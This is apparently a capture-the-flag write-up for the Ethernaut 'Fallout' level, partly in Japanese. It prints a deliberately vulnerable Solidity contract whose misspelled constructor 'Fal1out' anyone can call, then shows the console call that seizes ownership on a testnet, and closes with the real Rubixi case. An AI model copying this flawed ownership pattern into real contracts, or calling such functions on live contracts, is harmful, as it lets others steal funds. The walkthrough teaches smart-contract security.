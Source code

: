 ## Ethernaut-solution
---

### 2.FallOut

Claim ownership of the contract below to complete this level.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract Fallout {
  
  using SafeMath for uint256;
  mapping (address => uint) allocations;
  address payable public owner;


  /* constructor */
  function Fal1out() public payable {
    owner = msg.sender; //msg is global variable represent transaction. sender is transaction.
    //everyone can be owner.(changeable internall state of owner)
    allocations[owner] = msg.value;
  }

  modifier onlyOwner {
	        require(
	            msg.sender == owner,
	            "caller is not the owner"
	        );
	        _;
	    }

  function allocate() public payable {
    allocations[msg.sender] = allocations[msg.sender].add(msg.value);
  }

  function sendAllocation(address payable allocator) public {
    require(allocations[allocator] > 0);
    allocator.transfer(allocations[allocator]);
  }

  function collectAllocations() public onlyOwner {
    msg.sender.transfer(address(this).balance);
  }

  function allocatorBalance(address allocator) public view returns (uint) {
    return allocations[allocator];
  }
}
```

await contract.owner()
```
'0x0000000000000000000000000000000000000000'<br>
```
player<br>
```
'0xF6eA8E869C68362eC2FA1b2159Fe459D6D8f30F5'
```

contract.abi<br>
```
(6) [{…}, {…}, {…}, {…}, {…}, {…}]<br>
```
//ABIをよくみるとfunctionがFalloutじゃなくて"Fal1out"になっているのがわかる。これではcontractは効力がない。
```
0: {inputs: Array(0), name: 'Fal1out', outputs: Array(0), stateMutability: 'payable', type: 'function', …}<br>
1: {inputs: Array(0), name: 'allocate', outputs: Array(0), stateMutability: 'payable', type: 'function', …}<br>
2: {inputs: Array(1), name: 'allocatorBalance', outputs: Array(1), stateMutability: 'view', type: 'function', …}<br>
3: {inputs: Array(0), name: 'collectAllocations', outputs: Array(0), stateMutability: 'nonpayable', type: 'function', …}<br>
4: {inputs: Array(0), name: 'owner', outputs: Array(1), stateMutability: 'view', type: 'function', …}<br>
5: {inputs: Array(1), name: 'sendAllocation', outputs: Array(0), stateMutability: 'nonpayable', type: 'function', …}<br>
length: 6<br>
[[Prototype]]: Array(0)<br>
```

//contract作成。everybody is gonna be owner! 

```
contract.Fal1out()
Promise {<pending>, _events: o, emit: ƒ, on: ƒ, …}
addListener: ƒ (t,e,r)
emit: ƒ (t,e,r,n,o,a)
listeners: ƒ (t)
off: ƒ (t,e,r,n)
on: ƒ (t,e,r)
once: ƒ (t,e,r)
removeAllListeners: ƒ (t)
removeListener: ƒ (t,e,r,n)
_events: o {}
[[Prototype]]: Promise
[[PromiseState]]: "pending"
[[PromiseResult]]: undefined
```

⛏️ Sent transaction ⛏ https://rinkeby.etherscan.io/tx/0xe0e0964ddb4c34273921b00cf44acefc146dc26ba453869ab57159150f98cd7c
e4e9b69aea3571538dca60595571493ed3b7d30d.js:1 <br>
⛏️ Mined transaction ⛏ https://rinkeby.etherscan.io/tx/0xe0e0964ddb4c34273921b00cf44acefc146dc26ba453869ab57159150f98cd7c

await contract.owner()<br>
'0xF6eA8E869C68362eC2FA1b2159Fe459D6D8f30F5'<br>
player<br>
'0xF6eA8E869C68362eC2FA1b2159Fe459D6D8f30F5'

---
That was silly wasn't it? Real world contracts must be much more secure than this and so must it be much harder to hack them right?

Well... Not quite.

The story of Rubixi is a very well known case in the Ethereum ecosystem. The company changed its name from 'Dynamic Pyramid' to 'Rubixi' but somehow they didn't rename the constructor method of its contract:

```
contract Rubixi {
  address private owner;
  function DynamicPyramid() { owner = msg.sender; }
  function collectAllFees() { owner.transfer(this.balance) }
  ...
```
This allowed the attacker to call the old constructor and claim ownership of the contract, and steal some funds. Yep. Big mistakes can be made in smartcontractland.